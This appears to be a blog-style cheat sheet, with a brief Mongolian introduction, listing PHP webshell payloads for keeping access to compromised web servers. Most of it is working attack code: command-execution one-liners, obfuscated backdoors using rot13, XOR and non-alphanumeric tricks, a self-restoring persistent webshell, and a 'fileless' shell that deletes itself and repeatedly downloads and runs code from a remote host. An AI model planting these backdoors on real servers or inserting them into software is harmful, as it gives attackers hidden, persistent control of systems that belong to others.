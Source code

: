 ```yaml
---
published: true
---
```

## Webshell Hacking Techniques by fg0d

<p align="center">
<img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hackedd.jpg">
</p>

Веб аппликэйшнрүү довтолгоо хийх үеийн **Maintaining Access** хэсэгт **Webshell** -г ашигладаг бөгөөд энэ нь тухайн серверлүү алсын зайнаас хүссэн тушаалыг биелүүлэх боломжтой болгодог.

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
<form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag гэсэн base64 шүү

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo Export a sentence

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// No echo backdoor  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// Webshell without alphanumeric
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");

A=fl;B=ag;cat $A$B
```

## Webshell resident memory

```php
<?php
    ignore_user_abort(true);  // Ignore disconnection
    set_time_limit(0);  // Set no upper limit of execution time
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## Fileless webshell

```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```
